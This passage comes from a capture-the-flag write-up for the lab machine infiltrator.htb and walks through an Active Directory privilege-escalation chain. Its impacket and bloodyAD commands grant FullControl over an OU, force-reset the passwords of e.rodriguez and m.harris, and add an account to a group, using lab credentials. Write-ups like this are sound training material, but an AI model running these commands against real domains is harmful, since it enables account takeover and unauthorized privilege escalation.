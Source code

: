<figure><img src=".gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Whoa! We got ourselves a whole little attack chain. d.anderson -> generic all OU -> contains e.rodriguez -> addself to chiefs -> force change password on m.harris

I want to take a second here and make a note. There is a script that runs on this domain that will automatically reset users values back to normal after a given period of time. This means we have to perform our attacks quickly, and then print a ticket for m.harris, which will persist. Let's get our commands queued up. By clicking on each little exploit path in Bloodhound, it will actually tell you a command you can use. However, we will go off script a little here, and us BloodyAD [https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

{% code overflow="wrap" %}
```
impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb

export KRB5CCNAME=d.anderson.ccache

impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'d.anderson':'WAT?watismypass!' -k -no-pass -dc-ip dc01.infiltrator.htb

bloodyAD --host "dc01.infiltrator.htb" --dc-ip 10.129.171.160 -u 'd.anderson' -p 'WAT?watismypass!' -d "infiltrator.htb" -k set password "e.rodriguez" 'WAT?watismypass!'

impacket-getTGT infiltrator.htb/e.rodriguez:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb

export KRB5CCNAME=e.rodriguez.ccache

bloodyAD --host "dc01.infiltrator.htb" --dc-ip 10.129.171.160 -u 'e.rodriguez' -p 'WAT?watismypass!' -d "infiltrator.htb" -k add groupMember "Chiefs Marketing" e.rodriguez

bloodyAD --host "dc01.infiltrator.htb" --dc-ip 10.129.171.160 -u 'e.rodriguez' -p 'WAT?watismypass!' -d "infiltrator.htb" -k set password "m.harris" 'WAT?watismypass!'

impacket-getTGT infiltrator.htb/m.harris:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb

export KRB5CCNAME=m.harris.ccache
```
{% endcode %}
